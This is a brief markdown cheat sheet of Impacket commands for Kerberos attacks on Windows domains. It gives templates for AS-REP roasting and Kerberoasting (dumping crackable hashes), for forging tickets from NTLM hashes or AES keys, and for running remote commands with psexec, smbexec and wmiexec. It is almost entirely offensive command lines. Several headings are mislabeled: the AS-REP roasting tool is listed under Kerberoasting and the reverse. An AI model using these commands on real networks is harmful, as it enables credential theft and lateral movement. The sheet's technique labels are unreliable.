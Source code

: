 Impacket Kerberoasting

## Check for Kerberoasting: 

- `GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip <IP> -format hashcat/john`

## GetUserSPNs

ASREPRoast:
- `impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>`
- `impacket-GetUserSPNs <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>`

Kerberoasting: 
- `impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file> `

Overpass The Hash/Pass The Key (PTK):
- `python3 getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>`
- `python3 getTGT.py <domain_name>/<user_name> -aesKey <aes_key>`
- `python3 getTGT.py <domain_name>/<user_name>:[password]`

## Using TGT key to excute remote commands from the following impacket scripts:

- `python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass`
- `python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass`
- `python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass`

